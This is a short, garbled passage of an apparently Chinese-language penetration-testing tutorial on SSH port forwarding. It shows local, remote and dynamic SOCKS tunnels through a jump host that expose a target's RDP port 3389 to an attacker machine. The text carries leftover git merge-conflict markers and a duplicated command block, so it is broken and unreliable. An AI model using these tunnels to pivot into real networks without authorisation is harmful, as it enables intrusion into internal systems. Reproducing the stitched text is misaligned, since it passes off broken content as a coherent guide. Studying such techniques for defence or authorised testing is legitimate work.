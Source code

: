 远程转发：

```plain
ssh -CfNg -R 2333(攻击机端口):192.168.44.128(目标机 ip):3389(目标端口) hackme@192.168.174.128(攻击机)
=======
[![](assets/1709530725-047e41859d03be7460f70987624d4970.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301150801-70a94174-d79a-1.png)

本地转发：在攻击机 (192.168.174.128) 执行：也就是主动连接

```bash
ssh -Cg -L 2333(攻击机端口):192.168.44.128(目标机 ip):3389(目标端口) lenovo@192.168.174.1(跳板机)
```

[![](assets/1709530725-cca0631df74f347191055c8f318e56de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301150840-88041fb0-d79a-1.png)

远程转发：

```bash
ssh -CfNg -R 2333(攻击机端口):192.168.44.128(目标机 ip):3389(目标端口) hackme@192.168.174.128(攻击机)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```

动态转发：其实就是建立一个 ssh 加密的 SOCKS 代理通道

<<<<<<< HEAD
```plain
ssh -CfNg -D 2333 lenovo@192.168.174.1(跳板机)
```
